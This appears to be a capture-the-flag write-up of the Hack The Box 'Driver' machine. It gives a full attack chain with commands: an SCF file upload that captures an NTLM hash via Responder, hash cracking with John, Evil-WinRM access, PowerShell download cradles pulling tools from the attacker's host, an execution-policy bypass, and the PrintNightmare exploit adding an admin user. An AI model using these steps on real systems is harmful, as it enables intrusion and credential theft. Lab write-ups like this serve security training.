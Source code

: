 # Driver Write-Up
Hi everyone, let's start to h4ck !
## Description
The box is available [here](https://app.hackthebox.com/machines/387) if you want to try it before read this.

 - OS : Linux
 - Release date : 02 Octobre 2021
 - Difficulty : easy
 - Points : 20
 - IP Adress : ````10.10.11.106````

All is good, so here we go !

## Foothold
First, we scan the IP with the famous tool [**Nmap**](https://nmap.org), using the command :

```markdown
nmap 10.10.11.106 -sC -sV -p-
```

We obtain the following output :
```markdown
Starting Nmap 7.91 ( https://nmap.org ) at 2022-02-25 21:37 CET
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 33.90% done; ETC: 21:38 (0:00:06 remaining)
Nmap scan report for 10.10.11.106
Host is up (0.030s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE
80/tcp  open  http
135/tcp open  msrpc
445/tcp open  microsoft-ds
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 5.20 seconds

```

There are 4 open ports : 80 (**HTTP**), 135 (**MSRPC**), 445 (**SMB**) and 5985 (**Evil-WM**)...

So now, we are going to look the website. We have a Pop-up which contain a authentification. We can try to use admin/admin...

![alt text](https://github.com/Vssksj/Write-up/blob/main/HackTheBox/Driver/img/web_lock.png)

And, sometimes, it works :)

![alt text](https://github.com/Vssksj/Write-up/blob/main/HackTheBox/Driver/img/website.png)

When we explore the website, we find this page with an upload form. Here, we can make a link with the *upload* and *SMB*, and we can exploit a *SCF File Attacks*.

This [article](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) is really useful to understand this attack. It is really simple to exploit :

 - Create a .scf file
 - Add this following lines :
 ```
[Shell]
Command=2
IconFile=\\{YOUR_IP}\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
   ```
 - Add '@' in front of the filename

We have the exploit file but we need to setup a listener with [**Responder**](https://github.com/SpiderLabs/Responder) (installed in Kali-Linux).

```markdown
sudo responder -wrf --lm -v -I tun0
```

Then, upload the file with the website and wait a little.

![alt text](https://github.com/Vssksj/Write-up/blob/main/HackTheBox/Driver/img/hash_responder.png)

We receive a connection with a user and a hash.

```markdown
tony::DRIVER:2a7cdabfa3a86e6d:8145E5C2E03F2363A318FFE99BE766AC:0101000000000000216A32ACC32AD8014F1FE417A226E7A300000000020000000000000000000000
```

We create a file which contains the hash and we use [**John**](https://www.openwall.com/john/) to crack the password.

```markdown
john {HASH_FILE} --wordlist=path/to/rockyou.txt
```

We wait a moment, and **John** gives us the password : ````liltony````.

Now we can access to the machine with [**Evil-WinRM**](https://github.com/Hackplayers/evil-winrm). It a useful tool when you pentest Windows machines.


```markdown
evil-winrm -i 10.10.11.106 -u tony
```
Now, we are connected with user Tony. The user flag is located in ````C:\Users\Tony\Desktop\user.txt````.

## Privilege Esclation
The last part is to become the Administrator user. First, we can enum the box with [**WinPEAS**](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS), the **Linpeas** for Windows.

To import this, use the following command: 

```markdown
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://{YOUR_IP}:8080/winPEASany_ofs.exe','C:\Users\tony\Downloads\winpeas.exe')"
```

And execute it :
```markdown
.\winpeas.exe
```

Once **WinPEAS** finish, we can see that the *spoolsv* process is working. So, we can check if it is vulnerable with the ***NightMare*** exploit.

![alt text](https://github.com/Vssksj/Write-up/blob/main/HackTheBox/Driver/img/spoolsv.png)

We search on github a exploit of CVE-2021-1675 and we find this [one](https://github.com/mtthwstffrd/calebstewart-CVE-2021-1675). We upload the .ps1 payload on the machine :
```markdown
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://[YOUR_IP}:8080/CVE-2021-1675.ps1','C:\temp\bad.ps1')"
```

Then, we just have to execute the payload: 
```markdown
Import-Module .\bad.ps1
```

But we are restricted because we can't execute the payload. We try to bypass this by using ````powershell -ep bypass```` but **Evil-WinRM** doesn't like. We find a other command: 
```markdown
set-ExecutionPolicy RemoteSigned -Scope CurrentUser
```

Now, it is perfectly working ! 

The exploit add a new user in the local admin group. So, we gonna create a new local user but with admin privileges.
```markdown
Import-Module .\bad.ps1
Invoke-Nightmare -DriverName "Xerox" -NewUser "{RANDOM_USERNAME}" -NewPassword "{RANDOM_PASSWORD}" 
```
![alt text](https://github.com/Vssksj/Write-up/blob/main/HackTheBox/Driver/img/exploited.png)

Finally, open a new session with the new user and you will be in the Administrator group.

![alt text](https://github.com/Vssksj/Write-up/blob/main/HackTheBox/Driver/img/net_user.png)

Go in ````C:\Users\Administrator\Desktop\````, and made a ````type root.txt````

![alt text](https://github.com/Vssksj/Write-up/blob/main/HackTheBox/Driver/img/root.jpg)

And BOOM, we have the root flag !

*Note: To have a shell as NT/Authority System, just create a reverse shell in .dll and use ````Invoke-Nightmare -DLL "C:\path\to\your\reverse_shell.dll"````.*

## Conclusion
The box was really interesting and we learned new attacks about the .scf files. I recommend this box, 4 stars because it was, for me, a little guessing for the user flag.

Thanks for reading ! :)
